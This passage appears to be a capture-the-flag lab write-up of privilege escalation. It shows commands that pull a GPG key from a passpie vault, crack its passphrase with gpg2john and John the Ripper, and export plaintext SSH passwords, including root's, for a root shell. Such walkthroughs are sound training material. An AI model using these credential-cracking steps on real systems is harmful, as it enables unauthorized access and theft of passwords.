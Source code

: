 Land in jnelsons home directory and find a hidden directory ```.passpie```
- passpie is a command line password manager
```bash
$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛
```
Trying to export the passwords results in a prompt for a passphrase which is different from the user password that was used for the SSH session.
Checking out that hidden ```.passpie``` directory shows an interesting file ```.keys```
Look at that file to find a GPG public/private key pair -> Try and crack the private key
```bash
# use gpg2john to create a hash that can be cracked
$ gpg2john priv_key > hash
$ cat hash
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::priv_key

# now try and crack this hash using John The Ripper
$ john hash  --show       
Passpie:blink182:::Passpie (Auto-generated by Passpie) <passpie@local>::priv_key
```
The key cracks to ```blink182```!
Use this as the passphrase for passpie and export the passwords
```bash
$ passpie export passwords.db 
$ cat passwords.db 
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```
2 passwords: jnelsons has been compromised already but the root one is new -> use it for a root SSH shell